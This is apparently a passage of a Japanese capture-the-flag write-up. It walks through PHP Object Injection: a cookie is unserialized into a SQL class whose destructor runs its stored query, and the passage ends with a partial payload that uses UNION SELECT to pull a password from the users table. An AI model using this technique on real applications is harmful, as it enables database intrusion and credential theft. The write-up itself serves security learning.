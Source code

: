 ```php
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```
**source2.php**  
以下のSQLクラスを利用してPHP Object Injectionするっぽい。`__construct()`は空っぽなので、`__destruct()`が使えそう。  
デストラクタの中で`execute()`メソッドで`$this->conn->query ($this->query);`のようにして`query`の中のSQL文を実行している。  
したがってここに任意のSQL文をセットした状態でserializeしてからunserializeすればSQL Injectionできそう！  
```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```
`$row[username]`として`username`カラムの値を要素とした連想配列の値を出力するので、単純に`select password from users`とすると、`$row[username]`で表示できないので、`union select`で結合する。  
```php
$inject = "or";
class SQL {
    public $query = 'SELECT username FROM users WHERE id=-1 union select password from users users2 where id=1';
```